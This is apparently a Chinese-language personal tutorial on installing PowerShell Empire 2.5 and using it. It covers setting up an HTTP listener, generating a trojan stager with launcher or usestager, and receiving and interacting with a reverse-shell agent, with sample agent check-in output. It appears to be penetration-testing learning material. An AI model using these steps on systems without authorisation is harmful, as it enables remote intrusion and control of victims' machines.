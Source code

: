 ```yaml
---
以前就听说过这个工具，是一个后渗透神器
---
```

# 简单介绍一个生成木马建立监听的过程
首先安装,我在用的是2.5版本的，大概在2.0之后的版本和之前的命令就不太一样了，现在网上很多教程都是1.x的就导致我学习的时候走了很多弯路
```
# kali clone项目到本地
git clone https://github.com/EmpireProject/Empire.git
# 安装
sudo ./Empire/setup/indtall.sh
# 可能要输入一个什么密码，直接回车就可以，全部执行完成后就算完成了，需要的话还可以把./Empire/empire添加到系统命令中
```

# 介绍 empire主要分为三个部分，
- module是一些payload，可以通过这个模块生成各种需要的后门之类的
- listeners监听器，几种类型
- agents管理一些反弹到的shell或者是代理之类的

# 简单使用过程
## 配置监听
```
# 查看帮助信息
help

# 进入监听模式，并查看当前的监听
listeners
# 此时提示符会加上listener字样 第一次会提示没有设置监听

# 配置一个监听
uselistener http 	# 使用http监听，还有很多其他形式的，
info			# 查看需要配置的信息，类似show options
set 			# set命令用来配置参数，格式set 选项 值,注意配置完成后并没有立即生效
execute			# 使set命令生效，同时启动监听器
back			# 退出监听配置

# 再次查看监听
listeners
# 配置监听要注意任何两个监听的Name和Port不能相同
kill +Name		# 删除监听
```
## 生成木马
注意要先建立监听才能继续生成木马，因为木马需要反弹shell的地址和端口
```
# 退回模式
listeners

# 可以使用launcher和usestager两种方法生成木马，launcher生成文本形式的，usestager生成文件形式的（暂时觉得是这样的，2019.5.3）

launcher +语言 +监听器Name
# 直接回显想要的代码

usestager +Empire stager
# 需要set设置监听器等相关的参数才可以继续
execute			# set生效，生成木马文件

# 到目标机器上执行生成的文件，或命令

```

# 结果
如果一切正常的话监听机有回显如下
```
[*] Sending POWERSHELL stager (stage 1) to 10.203.87.61
[*] New agent NCU84961 checked in
[+] Initial agent NCU84961 from 10.203.87.61 now active (Slack)
[*] Sending agent (stage 2) to NCU84961 at 10.203.87.61

# 会显示被攻击级器的IP

# 使用agents，查看代理或者目标
agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------
 NCU84961 ps 192.168.11.1    DESKTOP-S8B7MSP   DESKTOP-S8B7MSP\R-web   powershell         1968   5/0.0    2019-05-03 17:59:53

连接目标shell
interact NCU84961

```

---
这算是一个最简单的empire使用教程吧
---

# 相关链接
- [PowerShell Empire实战入门篇](http://www.52bug.cn/hkjs/4368.html) 这个是2.3版本的教程，算是一个比较新的入门教程吧
- [Empire 2.5：PowerShell渗透测试实战指南（上篇）](https://www.freebuf.com/articles/web/165925.html) 也是一个比较新的教程，而且涉及到了web界面配置，而且这人目前还没有下篇
- [后渗透测试神器Empire的详解](https://xz.aliyun.com/t/67) 一个比较老的教程